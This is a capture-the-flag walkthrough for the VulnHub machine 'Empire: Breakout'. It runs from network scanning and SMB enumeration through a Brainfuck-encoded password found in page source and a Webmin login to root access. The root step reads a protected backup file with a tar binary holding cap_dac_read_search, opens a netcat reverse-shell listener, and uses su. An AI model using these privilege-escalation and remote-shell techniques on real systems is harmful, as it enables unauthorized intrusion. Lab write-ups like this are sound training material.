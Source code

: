 [vulnhub - easy] empire: breakout
---------------------------------

First I scan virtualbox's host-only network to see what IP has been assigned to the machine:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/empire-breakout]
└─$ nmap -sn 192.168.56.0/24  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-30 22:23 -03
Nmap scan report for 192.168.56.1
Host is up (0.00016s latency).
Nmap scan report for 192.168.56.119
Host is up (0.00033s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 4.90 seconds
```

Then I proceed to scan all ports to see which ones are open:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/empire-breakout]
└─$ nmap -p- -T4 -oN nmap_info_allports 192.168.56.119
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-30 23:18 -03
Nmap scan report for 192.168.56.119
Host is up (0.00028s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
10000/tcp open  snet-sensor-mgmt
20000/tcp open  dnp

Nmap done: 1 IP address (1 host up) scanned in 0.81 seconds
```

Then a detailed scan on the open ports:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/empire-breakout]
└─$ nmap -sC -sV -p 80,139,445,10000,20000 -oN nmap_info_detailed 192.168.56.119
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-30 23:18 -03
Nmap scan report for 192.168.56.119
Host is up (0.00052s latency).

PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-title: 200 &mdash; Document follows

Host script results:
|_clock-skew: -3m18s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-10-31T02:15:55
|_  start_date: N/A
|_nbstat: NetBIOS name: BREAKOUT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.86 seconds
```

Since samba is being served, I can use enum4linux to enumerate this machine, so I run:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/empire-breakout]
└─$ enum4linux 192.168.56.119
[...SHORTENED INFO]

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\cyber (Local User)      
[...SHORTENED INFO]
```

Three web pages being served, two of those being MiniServ (ports 10000 and 20000), and in port 80 the following:

![empire breakout 1](./images/empire-breakout-1.png)

When checking this page's source served in port 80, I find this information commented out:

```html
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.


-->
```

That's an encrypted message in the brainfuck language that reads:

```
.2uqPEfj3D<P'a-3
```

So I log into the admin page in port 20000 with Username 'cyber' and the password uncovered previously, get redirected to https://192.168.56.119:20000/mailbox/index.cgi?id=INBOX&xnavigation=1 that looks like:

![empire breakout 2](./images/empire-breakout-2.png)

This Webmin page has a terminal feature that allows for the authenticated user to use the terminal. Wen i open the terminal, this is what i find in the user's home folder:

```
[cyber@breakout ~]$ ls -l
total 524
-rwxr-xr-x 1 root  root  531928 Oct 19  2021 tar
-rw-r--r-- 1 cyber cyber     48 Oct 19  2021 user.txt
```

The 'user.txt' has the user flag and reads:

```
[cyber@breakout ~]$ cat user.txt
3mp!r3{You_Manage_To_Break_To_My_Secure_Access}
```

This 'tar' file has something to it that I can't point out just yet, comparing it to the tar binary it seems there's nothing different:

```
[cyber@breakout ~]$ ls -l tar
-rwxr-xr-x 1 root root 531928 Oct 19  2021 tar
[cyber@breakout ~]$ ls -l /bin/tar
-rwxr-xr-x 1 root root 531928 Feb 17  2021 /bin/tar
[cyber@breakout ~]$ diff tar /bin/tar

[cyber@breakout ~]$
```

But why create an equal copy of the same file in the user's home directory? So I decide to check the capabilities to see what I can get:

```
[cyber@breakout ~]$ getcap tar
tar cap_dac_read_search=ep
```

Which means, as stated in man7.org:

```
CAP_DAC_READ_SEARCH
              * Bypass file read permission checks and directory read
                and execute permission checks;
              * invoke open_by_handle_at(2);
              * use the linkat(2) AT_EMPTY_PATH flag to create a link to
                a file referred to by a file descriptor.
```

The 'ep' means effective permitted. That means I can read whichever file I choose to do so.

I could try to crack the shadow file, but seeing how the previous password was not crackable via bruteforce because it isn't in a password list, I try to find backup files inside the machine first.

After looking a while, I find the following in the /var/backups directory:

```
[cyber@breakout backups]$ ls -la
total 28
drwxr-xr-x  2 root root  4096 Oct 30 22:14 .
drwxr-xr-x 14 root root  4096 Oct 19  2021 ..
-rw-r--r--  1 root root 12732 Oct 19  2021 apt.extended_states.0
-rw-------  1 root root    17 Oct 20  2021 .old_pass.bak
```

So I go back to the home directory and:

```
[cyber@breakout ~]$ ./tar -cf pass.tar.gz /var/backups/.old_pass.bak
./tar: Removing leading `/' from member names
```

And then:

```
[cyber@breakout ~]$ tar -xf pass.tar.gz
```

It creates a /var/backups/.old_pass.bak in the home folder of user cyber, and it reads:

```
[cyber@breakout ~]$ cat var/backups/.old_pass.bak
Ts&4&YurgtRX(=~h
```

I can't su to root in the web shell, so I use nc to create a reverse shell:

```
┌──(j㉿kali)-[~/Desktop]
└─$ nc -s 192.168.56.1 -lnvp 4444
listening on [192.168.56.1] 4444 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.119] 38114
python3 -c 'import pty; pty.spawn("/bin/bash");'
cyber@breakout:~$ su root
su root
Password: Ts&4&YurgtRX(=~h

root@breakout:/home/cyber# 
```

```
root@breakout:/home/cyber# cd /root
cd /root
root@breakout:~# ls
ls
rOOt.txt
root@breakout:~# cat rOOt.txt
cat rOOt.txt
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}

Author: Icex64 & Empire Cybersecurity
```
